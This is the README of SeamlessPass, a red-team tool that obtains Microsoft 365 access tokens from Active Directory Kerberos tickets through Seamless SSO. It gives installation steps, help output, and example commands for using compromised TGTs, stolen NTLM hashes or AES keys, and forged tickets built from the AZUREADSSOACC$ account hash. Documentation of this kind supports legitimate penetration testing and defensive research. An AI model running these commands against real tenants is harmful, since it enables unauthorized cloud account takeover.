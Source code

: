 # SeamlessPass
**Leveraging Kerberos tickets to get Microsoft 365 access tokens using Seamless SSO**

---

SeamlessPass is a tool designed to obtain Microsoft 365 access tokens using on-premises Active Directory Kerberos tickets for organizations with Seamless SSO (Desktop SSO) enabled. These tokens can be used for further interaction with Microsoft 365 services via APIs or other tools like ROADTools and AADInternals for more offensive capabilities.

More information about the theory and use case scenarios can be found at the blog post (https://malcrove.com/seamlesspass-leveraging-kerberos-tickets-to-access-the-cloud/)



## Installation

SeamlessPass can be installed using PyPI or from the source. After installation, the tool will be available using `seamlesspass` command. 

### Using PyPI

```bash
pip install seamlesspass
```

### From Source

1. Download source code (as archive or using `git clone https://github.com/Malcrove/SeamlessPass.git`)
2. Navigate to the code directory
3. Install using `pip install .`, or install requirements `pip install -r requirements.txt` then run directly using `python run.py`

## Usage

```bash

   _____                      _               _____
  / ____|                    | |             |  __ \      v(0.1)
 | (___   ___  __ _ _ __ ___ | | ___  ___ ___| |__) |_ _ ___ ___
  \___ \ / _ \/ _` | '_ ` _ \| |/ _ \/ __/ __|  ___/ _` / __/ __|
  ____) |  __/ (_| | | | | | | |  __/\__ \__ \ |  | (_| \__ \__ \
 |_____/ \___|\__,_|_| |_| |_|_|\___||___/___/_|   \__,_|___/___/

 By Abood Nour (@0xSyndr0me) - Malcrove (https://malcrove.com/)

Leveraging Kerberos tickets to get cloud access tokens using Seamless SSO

Usage: seamlesspass [-t tenant domain] [-r resource URI] [-c client_id] [-ignore-sso-check] [-d domain] [-dc DC host/IP] [-u username] [-p password] [-n [LMHASH:]NTHASH] [-aes AESKey] [-tgt base64 TGT / TGT file] [-tgs base64 TGS / TGS file] [-spn SPN] [-domain-sid SID] [-user-rid number] [-user-sid SID] [-adssoacc-ntlm [LMHASH:]NTHASH] [-adssoacc-aes AESKey] [-proxy [scheme]://[user:password]@[host]:[port]] [-ua USERAGENT] [-debug] [-no-color] [-h]

Microsoft 365 options:
  -t/-tenant tenant domain
                        Domain of the tenant (e.g. example.com, corp.onmicrosoft.com)
  -r/-resource resource URI
                        Target cloud service to be accessed (Default: https://graph.windows.net)
  -c/-client-id client_id
                        Microsoft 365 client ID (Default: 1b730954-1685-4b74-9bfd-dac224a7b894)
  -ignore-sso-check     Try to login using Seamless SSO even if it is not enabled

Authentication Options:
  -d/-domain domain
                        Local domain (e.g., corp.local)
  -dc/-dc-ip DC host/IP
                        Hostname or IP Address of the domain controller used for authentication (example: dc.corp.local, 10.0.1.2)
  -u/-username username
  -p/-password password
  -n/-ntlm [LMHASH:]NTHASH
                        User's NTLM hashed password, format is [LMHASH:]NTHASH
  -aes AESKey  User's AES 128/256 key
  -tgt base64 TGT / TGT file
                        base64-encoded Ticket-Granting Ticket (TGT) or path to TGT file (kirbi/ccache)
  -tgs base64 TGS / TGS file
                        base64-encoded Service Ticket (TGS) or path to TGS file (kirbi/ccache)
  -spn SPN     Target service principal name. (Default: HTTP/autologon.microsoftazuread-sso.com)

Ticket Forgery Options:
  -domain-sid SID
                        Domain Security Identifier
  -user-rid number
                        User Relative ID (Last part of user SID)
  -user-sid SID
                        User Security Identifier
  -adssoacc-ntlm [LMHASH:]NTHASH
                        NTLM hash of AZUREADSSOACC account (Used to forge TGS)
  -adssoacc-aes AESKey
                        AES 128/256 Key of AZUREADSSOACC account (Used to forge TGS)

Connection Options:
  -proxy [scheme]://[user:password]@[host]:[port]
                        NOTE: This is used only for HTTP requests not DC communication. (example: http://burp:8080)
  -ua/-user-agent USERAGENT
                        HTTP User agent used in interaction with Microsoft 365 APIs

Misc options:
  -debug                Turn debug output on
  -no-color             Turn off console colors
  -h/--help             Show this help message and exit.

Examples:
  seamlesspass -tenant corp.com -domain corp.local -dc dc.corp.local -tgt <base64_encoded_TGT>
  seamlesspass -tenant corp.com -tgs user_tgs.ccache
  seamlesspass -tenant corp.com -domain corp.local -dc dc.corp.local -username user -ntlm DEADBEEFDEADBEEFDEADBEEFDEADBEEF
  seamlesspass -tenant corp.com -domain corp.local -dc 10.0.1.2 -username user -password password
  seamlesspass -tenant corp.com -adssoacc-ntlm DEADBEEFDEADBEEFDEADBEEFDEADBEEF -user-sid S-1-5-21-1234567890-1234567890-1234567890-1234
  seamlesspass -tenant corp.com -adssoacc-aes DEADBEEFDEADBEEFDEADBEEFDEADBEEF -domain-sid S-1-5-21-1234567890-1234567890-1234567890 -user-rid 1234
```

## Use Cases

SeamlessPass can be used to obtain access tokens for Microsoft 365 services for tenants with enabled Seamless SSO feature. The access tokens can be then fed to other tools like `ROADTools` and `AADInternals` for further enumeration or offensive capabilities. The tool can be very handy in various situations where the **cleartext password of the user is unavailable** but other forms of access are obtainable such as

- Using compromised user’s Ticket-Granting-Ticket (TGT) or forged Golden Ticket 
(*Interacts with DC)*
    
    ```bash
    seamlesspass -tenant corp.com -domain corp.local -dc dc.corp.local -tgt <base64_encoded_TGT>
    ```
    
- Using compromised user’s NTLM hash or AES key
(*Interacts with DC)*
    
    ```bash
    seamlesspass -tenant corp.com -domain corp.local -dc dc.corp.local -username user -ntlm DEADBEEFDEADBEEFDEADBEEFDEADBEEF
    ```
    
- Acquisition of AZUREADSSOACC$ account NTLM hash or AES key 
*(No interaction with DC is needed)*
    
    ```bash
    seamlesspass -tenant corp.com -adssoacc-ntlm DEADBEEFDEADBEEFDEADBEEFDEADBEEF -user-sid S-1-5-21-1234567890-1234567890-1234567890-1234
    ```
    

## TODO

- [ ]  Support interactive Multiple-Factor Authentication (MFA)
- [ ]  ...?

## Contact

Please submit any bugs, issues, questions, or feature requests under "Issues" or send them to me on Twitter @0xSyndr0me

## Credits

Creation of this tool would have been much harder if it wasn’t for the awesome work and research by folks like

- [SecureAuthCorp](https://github.com/SecureAuthCorp) and all the [contributors](https://github.com/SecureAuthCorp/impacket/graphs/contributors) for [Impacket](https://github.com/SecureAuthCorp/impacket)
- [Dr. Nestori Syynimaa](https://twitter.com/DrAzureAD) for [AADInternals](https://github.com/Gerenios/AADInternals)
- [Oliver Lyak](https://twitter.com/ly4k_) for [Certipy](https://github.com/ly4k/Certipy)
- [Dirk-jan](https://twitter.com/_dirkjan) for [ROADTools](https://github.com/dirkjanm/ROADtools)

